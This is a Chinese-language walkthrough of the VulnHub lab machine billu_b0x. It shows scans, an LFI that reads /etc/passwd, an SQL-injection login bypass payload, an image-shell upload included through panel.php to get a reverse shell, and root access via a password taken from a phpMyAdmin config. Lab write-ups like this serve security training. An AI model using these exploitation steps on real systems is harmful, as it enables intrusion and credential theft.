


# Recon

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/billu_b0x]
└─$ sudo nmap --min-rate 20000 -sT -sV -A -p- -n -Pn 192.168.2.150 -oN recon
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-18 02:31 EST
Nmap scan report for 192.168.2.150
Host is up (0.00063s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 fa:cf:a2:52:c4:fa:f5:75:a7:e2:bd:60:83:3e:7b:de (DSA)
|   2048 88:31:0c:78:98:80:ef:33:fa:26:22:ed:d0:9b:ba:f8 (RSA)
|_  256 0e:5e:33:03:50:c9:1e:b3:e7:51:39:a4:4a:10:64:ca (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: --==[[IndiShell Lab]]==--
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.22 (Ubuntu)
MAC Address: 00:0C:29:E5:48:EB (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.63 ms 192.168.2.150

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.20 seconds

```

# http

网页前端能看出这是一个sql注入点



不过还是完成例行枚举，先进行目录扫描

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/billu_b0x]
└─$ gobuster dir -u http://192.168.2.150 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x $ext
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.150
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              js,zip,tar.gz,xml,asp,jsp,tar,tgt,1,php,css,html,txt,py,bak,aspx,pl,htm,tar.bz2,pyc,backup,dist,cgi
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://192.168.2.150/images/]
/index                (Status: 200) [Size: 3267]
/index.php            (Status: 200) [Size: 3267]
/c                    (Status: 200) [Size: 1]
/c.php                (Status: 200) [Size: 1]
/in                   (Status: 200) [Size: 47521]
/in.php               (Status: 200) [Size: 47525]
/show.php             (Status: 200) [Size: 1]
/show                 (Status: 200) [Size: 1]
/add.php              (Status: 200) [Size: 307]
/add                  (Status: 200) [Size: 307]
/test                 (Status: 200) [Size: 72]
/test.php             (Status: 200) [Size: 72]
/head                 (Status: 200) [Size: 2793]
/head.php             (Status: 200) [Size: 2793]
/uploaded_images      (Status: 301) [Size: 324] [--> http://192.168.2.150/uploaded_images/]
/panel.php            (Status: 302) [Size: 2469] [--> index.php]
/panel                (Status: 302) [Size: 2469] [--> index.php]
/head2                (Status: 200) [Size: 2468]
/head2.php            (Status: 200) [Size: 2468]
```

## LFI -> SQLI

test.php返回'file' parameter is empty. Please provide file path in 'file' parameter

使用arjun fuzz参数，发现post file参数

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/billu_b0x]
└─$ arjun -u http://192.168.2.150/test.php -m GET 
[*] Scanning 0/1: http://192.168.2.150/test.php
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Logicforcing the URL endpoint
[!] No parameters were discovered.                                                                                                                                     
(py311) ┌──(kali㉿kali)-[~/vulnhub/billu_b0x]
└─$ arjun -u http://192.168.2.150/test.php -m POST                                                          
[*] Scanning 0/1: http://192.168.2.150/test.php
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Logicforcing the URL endpoint
[✓] parameter detected: file, based on: body length
[+] Parameters found: file
```

curl测试，发现文件包含，可以尝试包含目录扫描得到的几个文件

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/billu_b0x]
└─$ curl http://192.168.2.150/test.php -X POST -d "file=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:106::/var/run/dbus:/bin/false
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
```

包含index.php，也就是存在注入点的首页

```php
<?php
session_start();

include('c.php');
include('head.php');
if(@$_SESSION['logged']!=true)
{
        $_SESSION['logged']='';

}

if($_SESSION['logged']==true &&  $_SESSION['admin']!='')
{

        echo "you are logged in :)";
        header('Location: panel.php', true, 302);
}
else
{
echo '<div align=center style="margin:30px 0px 0px 0px;">
<font size=8 face="comic sans ms">--==[[ billu b0x ]]==--</font> 
<br><br>
Show me your SQLI skills <br>
<form method=post>
Username :- <Input type=text name=un> &nbsp Password:- <input type=password name=ps> <br><br>
<input type=submit name=login value="let\'s login">';
}
if(isset($_POST['login']))
{
        $uname=str_replace('\'','',urldecode($_POST['un']));
        $pass=str_replace('\'','',urldecode($_POST['ps']));
        $run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
        $result = mysqli_query($conn, $run);
if (mysqli_num_rows($result) > 0) {

$row = mysqli_fetch_assoc($result);
           echo "You are allowed<br>";
           $_SESSION['logged']=true;
           $_SESSION['admin']=$row['username'];
           
         header('Location: panel.php', true, 302);
   
}
else
{
        echo "<script>alert('Try again');</script>";
}

}
echo "<font size=5 face=\"comic sans ms\" style=\"left: 0;bottom: 0; position: absolute;margin: 0px 0px 5px;\">B0X Powered By <font color=#ff9933>Pirates</font> ";

?>
```

着重分析注入点，发现单引号被转义

```php
if(isset($_POST['login']))
{
        $uname=str_replace('\'','',urldecode($_POST['un']));
        $pass=str_replace('\'','',urldecode($_POST['ps']));
        $run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
        $result = mysqli_query($conn, $run);
if (mysqli_num_rows($result) > 0) {

$row = mysqli_fetch_assoc($result);
           echo "You are allowed<br>";
           $_SESSION['logged']=true;
           $_SESSION['admin']=$row['username'];
           
         header('Location: panel.php', true, 302);
   
}
```

代码逻辑上判断sql语句查询结果条数大于0则登录成功，而select是一个and关系

所以无法单独使用万能密码，要保证pass和uname都为true

需要两个位置都插入万能密码才行 

```sql
select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'
select * from auth where  pass=\''' or 1=1 -- \ '\' and uname=\''.$uname.'\'   -> true and false = false
select * from auth where  pass=\''' or 1=1 -- \ '\' and uname=\''' or 1=1 -- \ '\'  -> true and true = true
```

# shell as www-data by image-shell

登录成功后跳转panel.php，使用LFI看看源代码

```php
<?php
session_start();

include('c.php');
include('head2.php');
if(@$_SESSION['logged']!=true )
{
                header('Location: index.php', true, 302);
                exit();

}

echo "Welcome to billu b0x ";
echo '<form method=post style="margin: 10px 0px 10px 95%;"><input type=submit name=lg value=Logout></form>';
if(isset($_POST['lg']))
{
        unset($_SESSION['logged']);
        unset($_SESSION['admin']);
        header('Location: index.php', true, 302);
}
echo '<hr><br>';
echo '<form method=post>

<select name=load>
    <option value="show">Show Users</option>
        <option value="add">Add User</option>
</select> 

 &nbsp<input type=submit name=continue value="continue"></form><br><br>';
if(isset($_POST['continue']))
{
        $dir=getcwd();
        $choice=str_replace('./','',$_POST['load']);
        if($choice==='add')
        {
                include($dir.'/'.$choice.'.php');
                        die();
        }
        if($choice==='show')
        {
        
                include($dir.'/'.$choice.'.php');
                die();
        }
        else
        {
                include($dir.'/'.$_POST['load']);
        }

}

if(isset($_POST['upload']))
{

        $name=mysqli_real_escape_string($conn,$_POST['name']);
        $address=mysqli_real_escape_string($conn,$_POST['address']);
        $id=mysqli_real_escape_string($conn,$_POST['id']);

        if(!empty($_FILES['image']['name']))
        {
                $iname=mysqli_real_escape_string($conn,$_FILES['image']['name']);
        $r=pathinfo($_FILES['image']['name'],PATHINFO_EXTENSION);
        $image=array('jpeg','jpg','gif','png');
        if(in_array($r,$image))
        {
                $finfo = @new finfo(FILEINFO_MIME); 
        $filetype = @$finfo->file($_FILES['image']['tmp_name']);
                if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
                                {
                                        if (move_uploaded_file($_FILES['image']['tmp_name'], 'uploaded_images/'.$_FILES['image']['name']))
                                                         {
                                                          echo "Uploaded successfully ";
                                                          $update='insert into users(name,address,image,id) values(\''.$name.'\',\''.$address.'\',\''.$iname.'\', \''.$id.'\')'; 
                                                         mysqli_query($conn, $update);
                                                        }
                                }
                        else
                        {
                                echo "<br>i told you dear, only png,jpg and gif file are allowed";
                        }
        }
        else
        {
                echo "<br>only png,jpg and gif file are allowed";

        }
}
}

?>
```

其中关键点是文件上传功能，做了文件后缀、mime type和finfo检测文件头

```php
if(isset($_POST['upload']))
{

        $name=mysqli_real_escape_string($conn,$_POST['name']);
        $address=mysqli_real_escape_string($conn,$_POST['address']);
        $id=mysqli_real_escape_string($conn,$_POST['id']);

        if(!empty($_FILES['image']['name']))
        {
                $iname=mysqli_real_escape_string($conn,$_FILES['image']['name']);
        $r=pathinfo($_FILES['image']['name'],PATHINFO_EXTENSION);
        $image=array('jpeg','jpg','gif','png');
        if(in_array($r,$image))
        {
                $finfo = @new finfo(FILEINFO_MIME); 
        $filetype = @$finfo->file($_FILES['image']['tmp_name']);
                if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
                                {
                                        if (move_uploaded_file($_FILES['image']['tmp_name'], 'uploaded_images/'.$_FILES['image']['name']))
                                                         {
                                                          echo "Uploaded successfully ";
                                                          $update='insert into users(name,address,image,id) values(\''.$name.'\',\''.$address.'\',\''.$iname.'\', \''.$id.'\')'; 
                                                         mysqli_query($conn, $update);
                                                        }
                                }
                        else
                        {
                                echo "<br>i told you dear, only png,jpg and gif file are allowed";
                        }
        }
        else
        {
                echo "<br>only png,jpg and gif file are allowed";

        }
}
```

尝试绕过，上传成功



接下来要找一处能够畸形解析的位置来包含图片马

panel的功能选择实现是通过include来进行show和add的选择，而参数使用post传递

```php
if(isset($_POST['continue']))
{
        $dir=getcwd();
        $choice=str_replace('./','',$_POST['load']);
        if($choice==='add')
        {
                include($dir.'/'.$choice.'.php');
                        die();
        }
        if($choice==='show')
        {
        
                include($dir.'/'.$choice.'.php');
                die();
        }
        else
        {
                include($dir.'/'.$_POST['load']);
        }

}
```

load参数的add和show就是php的文件名

```http
POST /panel.php HTTP/1.1
Host: 192.168.2.150
Content-Type: application/x-www-form-urlencoded
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.2.150/panel.php
Origin: http://192.168.2.150
Accept-Encoding: gzip, deflate
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Cookie: PHPSESSID=n4prvs98nlvsk1o80ocj9sss02
Content-Length: 26

load=add&continue=continue
```

尝试更改为图片马路径

```http
load=uploaded_images/reverse.php.jpg&continue=continue
```

发包后反弹shell成功

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/billu_b0x]
└─$ pwncat-cs -lp 443
/opt/miniconda3/envs/py311/lib/python3.11/site-packages/zodburi/__init__.py:2: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  from pkg_resources import iter_entry_points
(local) pwncat$                               
(remote) www-data@indishell:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# shell as root phpmy/by config.inc.php

在/var/www/下发现phpmy目录 是phpmyadmin

查看config.inc.php 得到root密码

碰撞发现就是系统root用户密码

```shell
(remote) www-data@indishell:/var/www/phpmy$ cat config.inc.php 
<?php

/* Servers configuration */
$i = 0;

/* Server: localhost [1] */
$i++;
$cfg['Servers'][$i]['verbose'] = 'localhost';
$cfg['Servers'][$i]['host'] = 'localhost';
$cfg['Servers'][$i]['port'] = '';
$cfg['Servers'][$i]['socket'] = '';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['auth_type'] = 'cookie';
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = 'roottoor';
$cfg['Servers'][$i]['AllowNoPassword'] = true;

/* End of servers configuration */

$cfg['DefaultLang'] = 'en-utf-8';
$cfg['ServerDefault'] = 1;
$cfg['UploadDir'] = '';
$cfg['SaveDir'] = '';


/* rajk - for blobstreaming */
$cfg['Servers'][$i]['bs_garbage_threshold'] = 50;
$cfg['Servers'][$i]['bs_repository_threshold'] = '32M';
$cfg['Servers'][$i]['bs_temp_blob_timeout'] = 600;
$cfg['Servers'][$i]['bs_temp_log_threshold'] = '32M';


?>
(remote) www-data@indishell:/var/www/phpmy$ 
(remote) www-data@indishell:/var/www/phpmy$ mysql -uroot -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: YES)
(remote) www-data@indishell:/var/www/phpmy$ su root
Password: 
root@indishell:/var/www/phpmy# id
uid=0(root) gid=0(root) groups=0(root)
```

